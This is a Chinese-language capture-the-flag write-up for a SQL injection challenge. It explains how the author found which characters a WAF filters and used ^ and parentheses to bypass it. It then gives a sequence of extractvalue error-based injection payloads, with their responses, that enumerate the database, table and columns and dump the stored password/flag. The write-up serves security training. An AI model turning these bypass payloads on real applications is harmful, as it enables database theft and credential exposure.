 ### 题目

题目已经明示了**SQL注入**，直接开始试，发现存在waf，先试试过滤了哪些字符，包括`and or | & union space hex ascii`等一些常见的函数和符号，但是有几个符号没有被过滤，包括`^ ()`，分别用来取代`and or`和`space`，而`union`被过滤，我们需要另外一种方式进行注入，当我们输入一些错误信息时，会有回显，代表这道题目不太可能是**盲注**，通过测试发现报错注入的`extractvalue`和`updatexml`两个函数并没有被过滤，这道题我们可以采用这种方法，进行注入，先试试`1'^extractvalue(1,concat(0x7e,database()))%23`，发现有回显`XPATH syntax error: '~geek'`，说明思路是正确的，接下来继续注入就行，值得注意的是**Xpath报错注入是有位数上限**的，需要借助`right`和`left`函数，显示出完整的`flag`

### payload

```
// username=bme
password=1'^extractvalue(1,concat(0x7e,database()))%23
// XPATH syntax error: '~geek'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23
// XPATH syntax error: '~H4rDsq1'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23
// XPATH syntax error: '~id,username,password'
password=1'^extractvalue(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1))))%23
// XPATH syntax error: '~flag{7d35b909-3de4-4ead-917f-50'
password=1'^extractvalue(1,(select(left(password,40))from(H4rDsq1)))%23
// XPATH syntax error: '{7d35b909-3de4-4ead-917f-5023f5f'
password=1'^extractvalue(1,(select(right(password,30))from(H4rDsq1)))%23
// XPATH syntax error: 'de4-4ead-917f-5023f5f3f8e3}'
```

